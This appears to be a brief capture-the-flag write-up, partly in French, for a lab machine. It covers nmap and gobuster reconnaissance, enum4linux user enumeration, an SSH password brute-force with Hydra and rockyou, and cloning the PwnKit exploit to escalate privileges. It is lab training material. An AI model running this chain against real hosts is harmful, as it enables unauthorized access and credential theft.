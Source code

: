 
## 1. Nmap scan

- Ports ouverts : 22, 80, 139, 445

- Services : ssh, apache, samba

## 2. Gobuster analysis

```
gobuster dir -u https://example.com -w ~/wordlists/shortlist.txt
```

- Found a /development directory with the following files:
	- dev.txt
	- j.txt
- dev.txt :

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

- j.txt :

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

## 3. Find usernames

```
enum4linux -a <ip>
```

- users found : "jan" and "kay"

## 4. Try bruteforce SSH connection with Hydra

```
hydra -l jan -P /opt/rockyou.txt ssh://<ip>
```

- Password found : "armando"

```
ssh jan@<ip>
```

## 5. Download and run an exploit to privesc

```
git clone https://github.com/ly4k/PwnKit.git
```
```
scp /path/to/exploit.sh jan@<ip>:/tmp
```

## 6. GET THE FL4G

Password :
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```